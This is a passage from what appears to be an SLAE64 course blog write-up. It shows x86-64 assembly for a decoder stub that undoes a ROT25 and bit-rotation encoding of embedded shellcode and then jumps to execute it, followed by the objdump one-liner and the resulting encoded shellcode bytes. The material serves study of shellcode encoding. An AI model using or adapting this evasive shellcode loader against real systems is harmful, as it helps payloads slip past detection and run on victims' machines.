 ```asm

jmp_rot25_end_bucle:

	inc rsi				; Next byte of the shellcode
	; Check if all bytes of shellcode been ROT25'ed
	loop jmp_rot25_bucle		; Still bytes remaining, start bucle again
	loop jmp_rot25_bucle

; Cicle Rotate to Right shifting 3 bits 
;  ROT >> 3
jmp_rotate:

	push rbx			; Restore shellcode address to iterate again
	pop rsi	

	push SHELLCODE_LENGTH		; For the loop to iterate each byte of shellcode
	pop rcx

jmp_rotate_bucle:

	ror byte [rsi], 3		; Rotate right 3 bits
	
	inc rsi				; Next byte of the shellcode
	loop jmp_rotate_bucle		

jmp_execute_shellcode:

	jmp rbx				; Jump to execute the original shellcode

jmp_shellcode:	

	call jmp_real_start
	shellcode: db 0x5b,0xa2,0x1f,0x9b,0x5b,0xf6,0x92,0x2c,0x64,0x8c,0x92,0x92,0xb4,0x5c,
	           0xb3,0x5b,0x65,0x58,0x9b,0x5b,0x65,0x30,0xd3,0x5b,0x65,0x50,0x5b,0x35,
		   0x1f,0xf2,0x91,0x41
```
### Decoder: Compile and Generate Shellcode
---
The Decoder.nasm file is compiled, and the shellcode is generated using `objdump` one line command:
```bash
SLAE64> nasm -f elf64 Decode-Execve-Stack.nasm -o Decode-Execve-Stack.o
SLAE64> echo “\"$(objdump -d Decode-Execve-Stack.o | grep '[0-9a-f]:' | cut -d$'\t' -f2 | grep -v 'file' | tr -d " \n" | sed 's/../\\x&/g')\"""

"\xeb\x27\x5e\x56\x5b\x6a\x20\x59\x80\x3e\x19\x7c\x05\x80\x2e\x19\xeb\x03\x80\x06\xe7\x48\xff\xc6\xe2\xee\x53\x5e\x6a\x20\x59\xc0\x0e\x03\x48\xff\xc6\xe2\xf8\xff\xe3\xe8\xd4\xff\xff\xff\x5b\xa2\x1f\x9b\x5b\xf6\x92\x2c\x64\x8c\x92\x92\xb4\x5c\xb3\x5b\x65\x58\x9b\x5b\x65\x30\xd3\x5b\x65\x50\x5b\x35\x1f\xf2\x91\x41"

SLAE64> 
```
<img src="https://galminyana.github.io/img/A04_Decoder_Compile.png" width="75%" height="75%">
